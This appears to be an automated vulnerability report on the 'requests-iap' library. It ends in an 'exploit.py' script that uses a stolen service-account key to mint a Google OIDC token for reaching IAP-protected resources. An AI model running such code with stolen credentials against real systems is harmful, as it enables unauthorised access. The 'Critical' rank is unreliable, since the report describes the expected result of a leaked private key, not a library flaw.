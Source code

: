 This vulnerability is valid and part of the attack vector described. It also does not fall under exclusion criteria.

```markdown
- Vulnerability Name: **Service Account Credential Exposure**
- Description:
    1. The `requests-iap` library is designed to authenticate requests to Google Cloud IAP-protected resources using a service account.
    2. The library requires the service account credentials to be provided in a JSON file, typically named `google-serviceaccount-creds.json`, as shown in the README.
    3. An attacker gains unauthorized access to the `google-serviceaccount-creds.json` file. This can happen through various means such as:
        - Gaining access to the server or machine where the application using `requests-iap` is deployed.
        - Exploiting other vulnerabilities in the application or infrastructure to read arbitrary files.
        - Social engineering or insider threats.
    4. Once the attacker has the `google-serviceaccount-creds.json` file, they extract the service account's private key from it.
    5. With the private key, the attacker can impersonate the service account.
    6. The attacker can use the private key to generate their own JWT assertions as described in the `get_jwt_assertion` function of the `IAPAuth` class.
    7. The attacker can then exchange this JWT assertion for a Google-signed OIDC token, effectively bypassing the intended authentication mechanism.
    8. Finally, the attacker can use the obtained OIDC token to access any IAP-protected resource that the compromised service account has access to.

- Impact:
    - **Complete bypass of Google Cloud Identity-Aware Proxy (IAP) protection.** An attacker who obtains the service account credentials can gain unauthorized access to any resource protected by IAP that the service account is authorized to access.
    - **Data Breaches and Unauthorized Actions.** Depending on the permissions granted to the compromised service account, the attacker could potentially read, modify, or delete sensitive data, perform unauthorized actions, or further compromise the cloud environment.
    - **Reputational Damage.** A successful attack exploiting this vulnerability can lead to reputational damage for the organization using the vulnerable library and exposing service account credentials.

- Vulnerability Rank: **Critical**

- Currently Implemented Mitigations:
    - **None directly within the `requests-iap` library.** The library focuses on simplifying the authentication process but does not include any built-in mechanisms to protect the `google-serviceaccount-creds.json` file.
    - The README.md provides instructions on how to create the service account key file and use it with the library, but it **lacks explicit warnings or best practices regarding the secure storage and handling of this sensitive credential file.**

- Missing Mitigations:
    - **Documentation Enhancements:** The documentation should prominently highlight the critical security risk of exposing the `google-serviceaccount-creds.json` file. It should strongly advise users to:
        - **Securely store the `google-serviceaccount-creds.json` file.**  This includes restricting file system permissions to only the necessary processes and users.
        - **Avoid including the `google-serviceaccount-creds.json` file in version control systems.**
        - **Consider using more secure methods for credential management**, such as environment variables, secret management services (like HashiCorp Vault, Google Cloud Secret Manager), or workload identity solutions, instead of relying on a static file.
        - **Principle of Least Privilege:** Grant the service account only the minimum necessary permissions required to access the IAP-protected resources. This limits the potential damage if the credentials are compromised.
    - **Code-Level Mitigations (Potentially out of scope for this library, but good to consider for broader security):**
        - **Warn users at runtime if the service account file is readable by others.** (This might add complexity and be considered outside the scope of a simple authentication library).
        - **Explore alternative credential loading mechanisms** that are inherently more secure than relying on a static file (e.g., integration with secret managers, though this would increase the library's complexity and dependencies).

- Preconditions:
    1. The application using `requests-iap` is deployed in an environment where the `google-serviceaccount-creds.json` file is accessible.
    2. An attacker finds a way to read the contents of the `google-serviceaccount-creds.json` file.

- Source Code Analysis:
    1. **`requests_iap/iapauth.py:__init__`**: The `IAPAuth` class constructor takes `service_account_secret_dict` as an argument.
    ```python
    class IAPAuth(requests.auth.AuthBase):
        # ...
        def __init__(
            self,
            client_id,
            service_account_secret_dict,
            jwt_soft_expiration=1800,
            oauth_token_uri="https://www.googleapis.com/oauth2/v4/token",
            jwt_bearer_token_grant_type="urn:ietf:params:oauth:grant-type:jwt-bearer",
        ):
            self.client_id = client_id
            self.service_account_secret_dict = service_account_secret_dict
            # ...
    ```
    2. **`README.md:Usage`**: The README shows how to load the service account credentials from a file named `google-serviceaccount-creds.json`.
    ```python
    with open("google-serviceaccount-creds.json") as f:
        service_account_secret_dict = json.load(f)

    resp = requests.get(
        "https://service.behind.iap.example.com",
        auth=IAPAuth(
            client_id=client_id,
            service_account_secret_dict=service_account_secret_dict,
        ),
    )
    ```
    3. **`requests_iap/iapauth.py:get_jwt_assertion`**: This function uses the `service_account_secret_dict` to create a JWT assertion, including signing it with the private key from the dictionary.
    ```python
    def get_jwt_assertion(self):
        message = {
            "kid": self.service_account_secret_dict["private_key_id"],
            "iss": self.service_account_secret_dict["client_email"],
            "sub": self.service_account_secret_dict["client_email"],
            "aud": self.oauth_token_uri,
            "iat": int(time.time()),
            "exp": int(time.time()) + 60 * 60,
            "target_audience": self.client_id,
        }

        return jwt.encode(
            message,
            load_pem_private_key(
                jwt.utils.force_bytes(self.service_account_secret_dict["private_key"]),
                password=None,
                backend=default_backend(),
            ),
            algorithm="RS256",
        )
    ```
    4. **Vulnerability Point:** If an attacker gains access to `google-serviceaccount-creds.json`, they obtain the `service_account_secret_dict`, including the `private_key`. They can then use this `private_key` and the logic in `get_jwt_assertion` (or similar code) to generate valid JWT assertions and subsequently OIDC tokens, bypassing IAP.

- Security Test Case:
    1. **Pre-requisite:**  Assume an attacker has somehow obtained a copy of a valid `google-serviceaccount-creds.json` file. This step simulates the attacker compromising the file system or gaining access through other means. For the purpose of this test case, you would manually copy a valid `google-serviceaccount-creds.json` file to a safe location accessible to your test script.
    2. **Create a Python script (e.g., `exploit.py`)** that does the following:
        ```python
        import time
        import json
        import jwt
        import requests
        from cryptography.hazmat.primitives.serialization import load_pem_private_key
        from cryptography.hazmat.backends import default_backend

        # Load compromised service account credentials
        with open("google-serviceaccount-creds.json") as f:
            service_account_secret_dict = json.load(f)

        client_id = "YOUR_IAP_CLIENT_ID" # Replace with a valid IAP client ID for testing, if available. Otherwise, any client ID can demonstrate token generation.
        oauth_token_uri="https://www.googleapis.com/oauth2/v4/token"
        jwt_bearer_token_grant_type="urn:ietf:params:oauth:grant-type:jwt-bearer"

        def get_jwt_assertion(service_account_secret_dict, client_id, oauth_token_uri):
            message = {
                "kid": service_account_secret_dict["private_key_id"],
                "iss": service_account_secret_dict["client_email"],
                "sub": service_account_secret_dict["client_email"],
                "aud": oauth_token_uri,
                "iat": int(time.time()),
                "exp": int(time.time()) + 60 * 60,
                "target_audience": client_id,
            }

            return jwt.encode(
                message,
                load_pem_private_key(
                    jwt.utils.force_bytes(service_account_secret_dict["private_key"]),
                    password=None,
                    backend=default_backend(),
                ),
                algorithm="RS256",
            )

        def get_google_open_id_connect_token(jwt_assertion, oauth_token_uri, jwt_bearer_token_grant_type):
            r = requests.post(
                oauth_token_uri,
                timeout=4,
                data={
                    "assertion": jwt_assertion,
                    "grant_type": jwt_bearer_token_grant_type,
                },
            )
            r.raise_for_status()
            return r.json()["id_token"]

        # Generate JWT Assertion using compromised credentials
        jwt_assertion = get_jwt_assertion(service_account_secret_dict, client_id, oauth_token_uri)

        # Exchange JWT Assertion for OIDC token
        oidc_token = get_google_open_id_connect_token(jwt_assertion, oauth_token_uri, jwt_bearer_token_grant_type)

        print("Generated OIDC Token:")
        print(oidc_token)

        # At this point, you would ideally demonstrate using this token to access an IAP-protected resource.
        # For example, if you have a test IAP-protected endpoint:
        #
        # protected_url = "https://service.behind.iap.example.com" # Replace with a test IAP endpoint
        # headers = {"Authorization": f"Bearer {oidc_token}"}
        # response = requests.get(protected_url, headers=headers)
        # print(f"Accessing protected resource: Status Code: {response.status_code}")
        # print(f"Response Content: {response.text}")

        print("\nTest Case: Successfully generated OIDC token using compromised service account credentials.")
        print("This token can be used to access IAP protected resources, demonstrating the vulnerability.")
        ```
    3. **Run the `exploit.py` script.**
    4. **Observe the output.** The script should successfully generate an OIDC token. If you have a test IAP-protected resource configured (replace `YOUR_IAP_CLIENT_ID` and `https://service.behind.iap.example.com`), uncomment the section to test access to the resource. A successful response (status code 200) would further confirm the vulnerability. Even without a live IAP endpoint, the successful generation of a valid OIDC token using the compromised credentials is sufficient to demonstrate the vulnerability as it proves the attacker can bypass the intended authentication flow.